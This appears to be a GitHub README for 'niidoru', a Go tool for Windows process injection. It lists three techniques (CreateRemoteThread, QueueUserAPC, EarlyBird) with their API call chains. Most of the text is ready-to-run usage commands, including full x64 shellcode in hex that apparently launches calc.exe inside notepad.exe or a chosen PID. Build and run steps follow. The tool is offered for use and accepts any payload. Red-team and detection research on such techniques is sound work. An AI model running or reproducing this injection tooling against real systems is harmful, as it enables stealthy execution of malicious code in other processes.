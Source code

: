 # niidoru

Framework for Process Injection using Go.

```
go run . -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```
- -m (Mandatory): Process injection method. Options: 1, 2, 3
    - **Method 1** (*-m 1*) or **CreateRemoteThread**: OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread + CloseHandle
    - **Method 2** (*-m 2*) or **QueueUserAPC**: OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC + CloseHandle
    - **Method 3** (*-m 3*) or **EarlyBird**: CreateProcess + VirtualAllocEx + WriteProcessMemory + VirtualProtectEx + QueueUserAPC + ResumeThread + CloseHandle

- -p (Optional):  Process ID or PID. Examples: 1234

- -n (Optional):  Process name. Example: notepad.exe

- -h (Optional):  Hexadecimal payload. It can be in the format "\x50\x51\x52" or "505152". Default: Payload to pop calc.exe 

<br>

------------------------------

### Examples:

Process injection using CreateRemoteThread method, targeting a notepad.exe process and with a payload in hexadecimal format with "\x":  

```
go run . -m 1 -n notepad.exe -h \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
```

Process injection using QueueUserAPC method, targeting a process with PID 1234 and with a payload in hexadecimal format without "\x":

```
go run . -m 2 -p 1234 -h 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
```

Process injection using EarlyBird method, spawning a new notepad.exe process and with the default payload:

```
go run . -m 3 -n c:\windows\system32\notepad.exe 
```

<br>

------------------------------

### Binary

Compile:

```
go build
```

Run:

``` 
niidoru.exe -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```



